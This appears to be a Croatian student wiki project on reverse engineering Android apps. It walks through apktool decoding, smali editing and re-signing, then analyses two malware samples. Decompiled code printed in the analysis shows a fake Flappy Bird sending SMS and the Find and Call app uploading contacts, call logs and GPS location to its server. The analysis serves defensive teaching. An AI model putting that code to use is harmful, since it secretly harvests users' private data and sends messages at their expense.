

Reverzni inžinjering Android aplikacija
Članovi tima:
-Mario Mojsinović
--Mario.mojsinovic 10:46, 30. listopada 2015. (CET)
Sadržaj |
Uvod
Reverzni inženjering prestavlja način na koji otkrivamo kako uređaj, objekt ili sustav radi kroz analizu istoga. Neke od primjena su:
- Analiza zloćudnog (eng. malware) koda - Analiza hardware i embedded uređaja - Sigurnosni propusti - Bypass programskih zaštita (eng. cracking) - Izgubljeni dokumenti - Špijunaža
Pojavljuje se 80-ih, kako bi se zaobišla zaštita računalnih igara i programa, a 90-ih se već pojavljuju i virusi. Kako je Android operacijski sustav sa velikom bazom korisnika laka je meta za napadače, kao što prikazuju podaci na slici.
{kind=link}
Google Android je razvijen od strane Google Inc, te je prvi puta predstavljen 5.11.2007. godine. To je otvoreni operacijski sustav namijenjen za mobilne uređaje (mobilni telefoni, tableti, netbook računala, Google TV i slično) a zadnja verzija je 6.0 - naziva "Marshmallow".
Općenito o Android aplikacijama
Android aplikacije imaju ekstenziju APK:
- to je zapravo zip/jar ekstenzija - nema specifičnog načina imenovanja - SHA1 se može promijeniti bez narušavanja provjere potpisa - uobičajeno imenovanje: com.package.name.apk - pomoću adb-a (eng. Android Debug Bridge) možemo dobiti putanju aplikacije: pm list path com.package.name - aplikaciju možemo ekstraktirati bilo kojim rar/zip programom
Test.apk sadrži sljedeće direktorije/datoteke:
- meta-inf/manifest.mf - tekstualna datoteka, sadrži imena datoteka i kodiran blob
- /cert.name(RSA|DSA) - javni potpis developera, self-signed
- /cert_name.sf - manifest datoteka potpisa
- lib/armeabi (-v7a)/lib*.so - nativne ELF biblioteke, tip ovisi o načinu kompajliranja
arm64-v8a/
x86/
mips/
- res/ drawable-*/ *png - resource datoteke - slike, xml (layout), raw "binary" datoteke, zvučne datoteke, učitavanje pomoću asset manager-a
- xml/ *.xml
- raw/ ...
- ...
- assets/
- AndroidManifest.xml - početne točke aplikacije, dozvole, verzija aplikacije...
- classes.dex - dalvik izvršni kod, ODEX - DVM runtime, OAT - ART runtime
- resources.arsc - r.java, strings.xml, layouts.xml, ids.xml datoteke
- *
Android radi na način da "runtime" - što možemo opisati kao biblioteku koja pretvara naš high-level kod iz Jave u kod prihvatljiv za CPU u mobilnom uređaju. Postoje dvije vrste "runtime-a": Dalvik (stariji) i ART (noviji, službeno od verzije 5.0). Dalvik koristi Just in Time kompajler, što znači da se pri svakom pokretanju aplikacije, byte code interpretira liniju po liniju.
ART koristi Ahead of Time kompajler, jednom kad je aplikacije instalirana, cijeli byte code je konvertiran u "machine code" i pohranjen u memoriju mobilnog uređaja - događa se samo jednom. Pri svakom pokretanju aplikacije, "machine code" je pokrenut direktno sa memorije uređaja. Uzima više prostora memorije, no teoretski troši manje CPU i RAM resursa. Po mom iskustvu, AOT dosta ubrzava rad, no troši više baterije, iako bi teoretski i to trebalo biti smanjeno.
Na slici prikazan je životni ciklus jedne aktivnosti, a metode onCreate(), onStart() i onStop() su ulazne točke preopterećene od strane developera. Kreiranje jedne aktivnosti nasljeđuje 7 potencijalno preopterećenih klasa.

{kind=link}
Proces kompajliranja android aplikacije:
- AAPT (Asset Packaging Tool) kompajlira sve potrebne resurse (layout i slično) - .java datoteke kompajliraju se, zatim pretvaraju u java byte code, te se komapjliraju za dalvik (machine code), čime se dobije Dalvik byte code datoteka (.dex) - Zatim se kompajlira i potpisuje apk datoteka
Prilikom dekodiranja apk datoteke pomoću raznih alata, u većini slučajeva .dex datoteke pretvaraju se u .smali datoteke, radi lakšeg čitanja, iako postoje i alati koji .dex pretvaraju u .jar, pa zatim dobijemo .class datoteke koje izgledaju kao .java datoteke.
Proces izmjene bytecode-a:
- Apktool/baksmali, dekodiramo classes.dex datoteku iz .apk-a - U .smali datoteku unosimo promjene - Kompajliramo classes.dex datoteku s novim promjenama - Zip/potpis APK-a
Java kod:
public class StartActivity extends Activity {
@Override
protected void onCreate(
Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_start);
Log.i("StartActivity:", “Message");
}
Smali kod:
#virtual methods
.method protected onCreate(Landroid/os/Bundle;)V
.locals 3
.parameter "savedInstanceState"
.prologue
invoke-super {p0, p1}, Landroid/app/Activity
;->onCreate(Landroid/os/Bundle;)V
const/high16 v0, 0x7f03
const-string v0, "StartActivity:"
const-string v1, “Message
invoke-static {v0, v1}, Landroid/util/Log;
->d(Ljava/lang/String;Ljava/lang/String;)I
move-result v0
return-void
end method
Log.i("StartActivity:", "Message"); odgovara const-string v0, "StartActivity:"....move-result v0 dijelu.
Informacije o klasi:
.class public Lcom/apkudo/util/Serializer; .super Ljava/lang/Object; .source "Serializer.java"
Statična polja:
#static fields .field public static final TAG:Ljava/lang/String;= "String"
Metode:
# direct methods
.method public constructor <init>()V
.registers 1
.prologue
.line 5
invoke-direct {p0}, Ljava/lang/Object;-><init>()V
return-void
.end method
.method private nešto()V - V predstavlja tip metode (void, boolean, byte, short, char, float, int...). Klase su prefiksirane slovom L, a sufiksirane ; znakom : Lcom/example/myapp/MyClass;
Jedan, a skoro i jedini način kako "naučiti" Smali je pisanje jednostavnijeg koda u Javi, zatim kompajliranje i dekodiranje u Smali, kako bi vidjeli što se zapravo događa.
Hello World
Prije no što možemo krenuti sa primjerima, moramo instalirati sljedeće programe:
1. Android SDK [2]. Dobra ideja je skinuti isti zajedno s Android Studiom, radi kreiranja HelloWorld aplikacije, iako istu vjerojatno možemo pronaći i na web-u.
2. Java JDK [3]. Pripaziti da je putanja mape JDK-a dodana u Path varijablu - pod Environment variables.
3. Apktool [4]. Program koji nema GUI, koristi se iz komandne linije. Omogućava dekodiranje/kompajliranje aplikacije, smali debugging (iako je od zadnje verzije depreceted).
4. Sublime Text[5] (opcionalno).
Za početak sam kreirao primjer aplikacije u Android Studiu.
{kind=link}
Nije potrebno mijenjati stvari navedene na slici, a na idućem koraku koji je prikazan na slici, biramo minimalnu verziju Android-a.
{kind=link}
Zatim odabiremo Blank Activity, te Next i Finish. Prije pokretanja aplikacije, potrebno je spojiti smartphone na računalo putem adb-a (USB ili Wi-Fi), a možemo koristiti i emulator. Nakon što kompajliramo aplikaciju, dobiti ćemo sljedeći ekran:
{kind=link}
Ispisana je poruka Hello World, a u sljedećim koracima prikazat ću kako to možemo promijeniti.
Apk datoteka novokreirane aplikacije nalazi se u C:\Users\X\AndroidStudioProjects\ProbaSIS\app\build\outputs\apk, naziva app-debug.apk. Kako bi dekodirali željenu apk datoteku, koristimo naredbu:
- apktool d <ime_apk-a.apk>
Kao što je prikazano na slici.
{kind=link}
Dekodirane datoteke možemo pronaći u mapi app-debug, osim ako nismo naveli drugačije.
Kako bih najlakše pronašao string kojeg tražim, u ovom slučaju "Hello World", koristio sam alat Sublime Text. Pritiskom tipki Ctrl+Shift+F možemo pretražiti željenu mapu prema navedenom upitu, kao što je prikazano na slici ispod.
{kind=link}
String Hello World pronađen je u datoteci content_main.xml, koja se nalazi u mapi res/layout, te smo sadržaj promijenili u Hello SIS!, kao što je prikazano na slici ispod.
{kind=link}
Kako bi kompajlirali novu verziju aplikacije, upisujemo sljedeću naredbu:
- apktool b <ime_mape> -o ime_aplikacije.apk
Što možemo vidjeti na slici.
{kind=link}
Zatim moramo kreirati našu keystore datoteku, kojom ćemo potpisati novu verziju aplikacije. Otvorimo cmd (Komandnu liniju), te upišemo sljedeću naredbu:
- keytool -genkey -v -keystore tinker.keystore -alias tinker_key -keyalg RSA -keysize 2048 -validity 10000
Unosimo podatke kao što je ime, prezime, grad i sl. Također je potrebno unijeti password za keystore i ključ, te je nakon toga u mapi iz koje smo pozvali naredbu, kreirana tinker.keystore datoteka.
Radi lakšeg rada možemo kopirati .keystore datoteku u mapu gdje je i nova verzija aplikacije (apk). Kako bi potpisali aplikaciju, pišemo:
- jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore <imekeystoredatoteke.keystore> <imeapka.apk> tinker_key
Upisujemo lozinke kako bi završili sa potpisivanjem, a prije instalacije se može provjeriti ispravnost potpisa naredbom:
- jarsigner -verify -verbose -certs <imeapk.apk>
Zatim možemo instalirati aplikaciju na smartphone koristeći naredbu:
- adb install -r <imeapk.apk> - r -> reinstall, imamo početnu verziju
Slika ispod prikazuje kako izgleda nova verzija aplikacije.
{kind=link}
Brisanje poruke na lockscreen-u
Za drugi primjer odabrao sam brisanje "Swipe to unlock" poruke na lockscreen-u.
{kind=link}
Trebaju nam i framework-res.apk te SemcGenericUxpRes datoteke, koje instaliramo kao framework u apktool. Navedene datoteke možemo "povući" s naredbom adb pull:
- adb pull system/app/XperiaLockScreen.apk - adb pull system/framework/framework-res.apk - adb pull system/framework/SemcGenericUxpRes.apk
Naredbama:
- apktool if framework-res.apk - apktool if SemcGenericUxpRes.apk
Instaliramo framework, kako bi mogli dekotirati aplikaciju, naredbom:
- apktool d XperiaLockScreen.apk
U mapi XperiaLockScreen imamo sadržaj aplikacije, a najlakše ćemo željeni string pronaći pomoću Sublime Text-a i mogućnosti koju sam prikazao u primjeru 1. String "Swipe to unlock" pronađen je u datoteci strings.xml, kao što je opisano ispod:
- <string name="lockscreen_short_unlock_hint">Swipe to unlock</string>
Što mijenjamo u:
- <string name="lockscreen_short_unlock_hint"/>
Kompajliramo aplikaciju, potpisujemo, te eventualno provjeravamo potpis:
- apktool b XperiaLockScreen -o XperiaLockScreen.apk - jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore tinker.keystore XperiaScreenLock.apk tinker_key
Prijenos možemo obaviti pomoću Root Explorera ili slične aplikacije. Kopiramo na željeno mjesto, te postavimo prava za izvođenje.
{kind=link}
Fake flappy bird
Za idući primjer odabrao sam android malware, te kako pomoću reverznog inženjeringa možemo kroz 10 minuta vidjeti da aplikacija ima čudne "namjere". Apk datoteku sam pronašao na linku [11], te ju možemo dekodirati pomoću apktool-a, koristeći naredbu:
- apktool d flappy-bird.apk
Koristeći apktool, .dex datoteka će biti pretvorena u .smali datoteke. Kako to izgleda, možemo vidjeti ispod:
.class Lcom/hdc/bookmark3934/MainActivity$1$2;
.super Ljava/lang/Object;
.source "MainActivity.java"
# interfaces
.implements Landroid/content/DialogInterface$OnClickListener;
# annotations
.annotation system Ldalvik/annotation/EnclosingMethod;
value = Lcom/hdc/bookmark3934/MainActivity$1;->onTouch(Landroid/view/View;Landroid/view/MotionEvent;)Z
.end annotation
.annotation system Ldalvik/annotation/InnerClass;
accessFlags = 0x0
name = null
.end annotation
# instance fields
.field final synthetic this$1:Lcom/hdc/bookmark3934/MainActivity$1;
# direct methods
.method constructor <init>(Lcom/hdc/bookmark3934/MainActivity$1;)V
.locals 0
.prologue
.line 1
iput-object p1, p0, Lcom/hdc/bookmark3934/MainActivity$1$2;->this$1:Lcom/hdc/bookmark3934/MainActivity$1;
.line 174
invoke-direct {p0}, Ljava/lang/Object;-><init>()V
return-void
.end method
# virtual methods
.method public onClick(Landroid/content/DialogInterface;I)V
.locals 0
.param p1, "dialog" # Landroid/content/DialogInterface;
.param p2, "which" # I
.prologue
.line 179
invoke-interface {p1}, Landroid/content/DialogInterface;->dismiss()V
.line 180
return-void
.end method
Kao što vidimo, smali kod je teži za čitanje, pa nam tu može pomoći jedan alat naziva Bytecode Viewer[17]. Pokrenemo alat (Bytecode Viewer 2.9.8.jar datoteku), te otvorimo apk datoteku flappy-bird.apk. Na slici ispod možemo vidjeti kako to izgleda.
{kind=link}
Otvorimo li mapu "Decoded resources", te AndroidManifest.xml datoteku, možemo vidjeti da aplikacija zahtjeva dozvole za slanje sms-a - što odmah predstavlja upitnik nad glavom - zašto bi Flappy Bird igra tražila dozvolu za slanje SMS-a? Također, pri instalaciji aplikacija, valja pripaziti koje dozvole aplikacije zahtjeva za rad. Bytecode viewer alat može pretvoriti classes.dex datoteku u jar, iz kojih možemo vidjeti .class datoteke koje su dosta slične .java datotekama, no u slučaju obsfukacije, teže su razumljivi.
Na slici ispod možemo vidjeti kako izgledaju .class i .smali datoteke.
{kind=link}
Pri kreiranju glavne aktivnosti možemo vidjeti da se poziva metoda getSimNetwork(), koja izgleda ovako:
private boolean getSimNetwork()
{
boolean bool = true;
this.dialog = new Dialog_Waitting(this, 1);
this.dialog.show();
TelephonyManager localTelephonyManager = (TelephonyManager)getSystemService("phone");
String str = localTelephonyManager.getNetworkOperator();
if ((str == null) || (str.equals(""))) {
return false;
}
int i = Integer.parseInt(str.substring(3));
switch (Integer.valueOf(localTelephonyManager.getSimState()).intValue())
{
default:
switch (i)
{
case 3:
case 6:
default:
this.typeNetwork = "OTHER";
}
break;
}
for (;;)
{
this.dialog.dismiss();
return bool;
bool = false;
break;
bool = false;
break;
bool = false;
break;
bool = false;
break;
bool = true;
break;
bool = false;
break;
this.typeNetwork = "VMS";
continue;
this.typeNetwork = "VNP";
continue;
this.typeNetwork = "VTT";
continue;
this.typeNetwork = "VIETNAM_MOBILE";
continue;
this.typeNetwork = "BEELINE";
}
}
Metoda kroz objekt TelephonyManagera dolazi do naziva mreže koju koristimo. Zatim sam pronašao klasu koja šalje poruku nepoznatoj adresi, koja izgleda ovako:
class SendSMS$2
implements Runnable{
SendSMS$2(Context paramContext, String paramString) {}
public void run()
{
try{
PendingIntent localPendingIntent1 = PendingIntent.getBroadcast(this.val$instance, 0, new Intent(SendSMS.SENT), 0);
PendingIntent localPendingIntent2 = PendingIntent.getBroadcast(this.val$instance, 0, new Intent(SendSMS.DELIVERED), 0);
SmsManager.getDefault().sendTextMessage(SendSMS.address, null, this.val$data, localPendingIntent1, localPendingIntent2);
return;
}catch (Exception localException){
localException.printStackTrace();
}
}
}
Koristeći SmsManager sendTextMessage metodu, šalje se poruka na nepoznatu adresu. Također, valja napomenuti da sam u kodu pronalazio razna logiranja, tipa "SMS Send", ili slično.
Find and Call
Za sljedeći primjer odabrao sam aplikaciju Find and Call [10], koja se prvotno pojavila na App Store i Play Store servisima. Za dekodiranje koristiti ću Bytecode viewer, kao i u prošlom primjeru.
Otvorimo li AndroidManifest.xml datoteku iz mape "Decoded resources", zanimljiv dio je prikazan ispod:
<uses-permission android:name="android.permission.READ_CONTACTS"/>
<uses-permission android:name="android.permission.INTERNET"/>
<uses-permission android:name="android.permission.READ_PHONE_STATE"/>
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
<uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.CALL_PHONE"/>
<uses-permission android:name="android.permission.READ_SMS"/>
Aplikacija traži dozvole za čitanje kontakata, GPS lokaciju, te čitanje SMS poruka, između ostaloga. Aplikacija čita i šalje listu kontakata na stranicu hxxp://abonent.findandcall.com/, a to prikazuje sljedeći kod:
for (;;)
{
if (!localIterator.hasNext())
{
localStringBuffer.append("</records></info>");
String str1 = localStringBuffer.toString();
Object[] arrayOfObject = new Object[2];
arrayOfObject[0] = "http://abonent.findandcall.com";
arrayOfObject[1] = Config.getSessionId();
new ServerCaller(null, String.format("%s/profile/phoneBook?sid=%s", arrayOfObject), "POST", str1).run();
return Integer.valueOf(0);
String str2 = localCursor.getString(localCursor.getColumnIndex("_id"));
if (CollectContactsOperation.Contact.access$0(new CollectContactsOperation.Contact(this, str2)).size() <= 0) {
break;
}
localArrayList.add(new CollectContactsOperation.Contact(this, str2));
i++;
if (i % 100 != 0) {
break;
}
Log.i("CONTACTS", "added " + i + " contacts");
break;
}
localStringBuffer.append(((CollectContactsOperation.Contact)localIterator.next()).toXML());
}
}
Dalje, imamo metodu koja uploada popis poziva:
protected CallLogResult doInBackground(Integer... paramVarArgs)
{
Object[] arrayOfObject = new Object[2];
arrayOfObject[0] = "http://abonent.findandcall.com";
arrayOfObject[1] = paramVarArgs[0];
new ServerCaller(this, String.format("%s/call/list?version=%d", arrayOfObject)).run();
return this.result;
}
Zatim, postoji i metoda koja šalje točnu lokaciju, a ona izgleda ovako:
protected FindGpsLocationResult doInBackground(Location... paramVarArgs)
{
String str = Double.valueOf(paramVarArgs[0].getLatitude()).toString().replace(',', '.');
new ServerCaller(this, String.format("%s/system/findLocationByPosition?longitude=%s&latitude=%s", new Object[] { "http://abonent.findandcall.com", Double.valueOf(paramVarArgs[0].getLongitude()).toString().replace(',', '.'), str })).run();
return this.result;
}
Također, opet se pronalaze razna logiranja, tipa "Contacts added", ili slično. Aplikacija podatke koje želi sprema u lokalnu bazu na uređaju, kao što prikazuje metoda ispod:
private List<Map<String, String>> processNewCallLog(CallLogResult paramCallLogResult)
{
SQLiteDatabase localSQLiteDatabase = new DBOpenHelper(this).getWritableDatabase();
localSQLiteDatabase.delete("call_logs", null, new String[0]);
Iterator localIterator = paramCallLogResult.getData().iterator();
for (;;)
{
if (!localIterator.hasNext())
{
localSQLiteDatabase.close();
return getCallLogData();
}
Map localMap = (Map)localIterator.next();
ContentValues localContentValues = new ContentValues();
localContentValues.put("call_id", Integer.valueOf(Integer.parseInt((String)localMap.get("call_id"))));
localContentValues.put("dtn_id", Integer.valueOf(Integer.parseInt((String)localMap.get("id"))));
localContentValues.put("deleted", Integer.valueOf(Integer.parseInt((String)localMap.get("deleted"))));
localContentValues.put("call_date", Long.valueOf(Long.parseLong((String)localMap.get("call_date"))));
localContentValues.put("version", Integer.valueOf(paramCallLogResult.getVersion()));
localContentValues.put("name", (String)localMap.get("name"));
localContentValues.put("nickname", (String)localMap.get("nickname"));
localContentValues.put("avatar", (String)localMap.get("avatar"));
localContentValues.put("type", (String)localMap.get("name"));
localContentValues.put("provider", (String)localMap.get("provider"));
String str = (String)localMap.get("contact");
if ((str == null) || (str.trim().length() == 0)) {
str = (String)localMap.get("nickname");
}
localContentValues.put("contact", str);
localSQLiteDatabase.insert("call_logs", null, localContentValues);
}
}
Svaki kontakt iz korisnikove liste kontakata dobiti će SMS spam, koji će izgledati vjerodostojno, tipa: "Now I’m here and it’s easier to reach me with the help of free application [URL]".
Obfuskacija koda
Obfuskacija koda podrazumijeva stvaranje istoga nečitkim i nama nerazumljivim , čineći ga različitim od izvornog programskog jezika.
class OriginalHello {
public OriginalHello() {
int number=1;
}
public String getHello(String helloname){
return helloname;
}
Obfuskacijom postaje:
class a {
public static boolean a;
public a() {
int a=1;
}
public String a(String b){
return b;
}
Također,
btnNew = changeButtonLabel(btnNew, language.getText("new"));
btnOpen = changeButtonLabel(btnOpen, language.getText("open"));
Može postati (a to je samo početak):
d =a(d, n.a("new"));
e = a(e, n.a("open"));
Za obfuskaciju pri Android developmentu možemo koristiti DexGuard [7].
Deobfuskacija:
Kako bi deobfuskacijom dobili razumljiv kod, koristimo alat naziva simplify [6]. Simplify pokreće aplikaciju na VM (Virtual Machine), te kod optimiriza kako bismo ga mogli pročitati. Primjer:
smv.mmj = kut.ger(kut.vav()); smv.nco = kut.ger(kut.dvf());
Postaje:
smv.mmj = "7887"; smv.nco = "0203216 00 12 560";
Statička analiza
Statička analiza predstavlja analizu aplikacije bez pokretanja iste, te uglavnom koristeći već automatizirane alate.Jedan od takvih alata je androwarn [14], koji statičkom analizom Dalvik bytecodea - Smali koda analizira aplikaciju te pokušava pronaći maliciozno ponašanje. Nakon što je analiza gotova, dobivamo report u obliku html dokumenta.
Alat cilja na sljedeće kategorije:
Podaci o mobilnom uređaju - IMEI, IMSI, MCC, MNC, LAC, CID, Mobilna mreža Verzija Androida, statistika korištenja, postavke, log-ovi... GPS/WiFi geolokacija WiFi lozinke, Bluetooth MAC adrese Premium SMS slanje (kao u primjeru 3), pozivi Snimanje razgovora i videa Kontakti, kalendar, SMS, Mail Pristup podacima na vanjskoj memoriji (SD kartica)
Kako bi sa Androwarn alatom statički analizirali aplikaciju, unosimo sljedeću naredbu:
python androwarn.py -i SampleApplication/bin/SampleApplication.apk -v 3 -r html -n
Izvršio sam statičku analizu za aplikaciju u 3.primjeru, te nam prikazuje postoji li maliciozno ponašanje u kodu. Prikazano je sljedeće (između ostalog):
Aplikacija čita numeričko ime mrežnog operatora Logira nelogične stvari unutar koda Informacije o certifikatu Dozvole koje aplikacija zahtjeva, i slično.
Zaključak
Reverzni inženjering Android aplikacija je dostupan doslovno svima. Jedina teža stvar je razumjeti smali kod, no sve je to izvedivo s vremenom, i metodom "Trial-and-error". Također, apk datoteke malware-a nisu dostupne baš svima, te su ovi noviji (gdje sam ih pronašao), enkriptirani, pa autori traže da se javimo na mail, kako bi dobili password. Nažalost, navedena osoba mi se nije javila, pa nisam uspio obraditi jedan noviji malware. Tema mi se izričito sviđa, te smatram da je ovime tek zagrebena površina.
Literatura
1. Smartphone OS market share, dostupno 12.1.2016 na: http://www.idc.com/prodserv/smartphone-os-market-share.jsp
2. Android SDK, dostupno 30.12.2015 na: http://developer.android.com/sdk/index.html
3. Java SE downloads, dostupno 30.12.2015 na http://www.oracle.com/technetwork/java/javase/downloads/index.html
4. Apktool github, dostupno 2.1.2016 na https://ibotpeaches.github.io/Apktool/
5. Sublime Text, dostupno 30.12.2015 na http://www.sublimetext.com
6. Simplify, dostupno 15.1.2016 na https://github.com/CalebFenton/simplify
7. DexGuard, dostupno 17.1.2016 na https://www.guardsquare.com/dexguard
8. Mobile Security Wiki, dostupno 10.1.2016 na https://mobilesecuritywiki.com
9. Step by step analysis of Android, dostupno 10.1.2016 na http://blog.nviso.be/2013/06/step-by-step-analysis-of-android.html
10. Contagiomini dump, dostupno 3.1.2016 na http://contagiominidump.blogspot.be
11. Android malware dump, dostupno 10.1.2016 na http://androidmalwaredump.blogspot.hr
12. Find and call application, dostupno 15.1.2016 na https://securelist.com/blog/incidents/33544/find-and-call-leak-and-spam-57/
13. Reverse engineering Android, dostupno 30.12.2015 na http://www.syssec-project.eu/m/page-media/158/syssec-summer-school-Android-Code-Injection.pdf
14. Androwarn, dostupan 10.1.2016 na https://github.com/maaaaz/androwarn/
15. Dalvik and ART, dostupno 14.1.2016 na http://opensourceforgeeks.blogspot.hr/2015/02/difference-between-dalvik-and-art.html
16. Android lifecycle, dostupno 30.12.2015 na http://stackoverflow.com/questions/16293023/android-life-cycle-which-event-fired-only-once-during-the-life-cycle
17. Bytecode viewer, dostupno 5.1.2016 na https://github.com/Konloch/bytecode-viewer/releases
18. Reverse engineering Android apps, dostupno 30.12.2015 na http://ttcubicle.blogspot.hr/2015/03/reverse-engineering-closed-source_21.html
19. Offensive & defensive Android Reverse engineering, dostupno 30.12.2015 na https://github.com/rednaga/training/tree/master/DEFCON23
20. Čudesan svijet reverznog inženjeringa, dostupno 30.12.2015 na http://www.cis.hr/files/cudesni_re.pdf
21. Zaštita izvornog koda programa, dostupno 15.1.2016 na http://sigurnost.lss.hr/Novi-dokumenti/zastita-izvornog-koda-programa.html
22. Protect your java code from reverse engineering, dostupno 15.1.2016 na http://www.thegeekstuff.com/2008/06/protect-your-java-code-from-reverse-engineering/
23. How obfuscation helps protect Java from reverse engineering, dostupno 15.1.2016 na http://www.techrepublic.com/blog/software-engineer/how-obfuscation-helps-protect-java-from-reverse-engineering/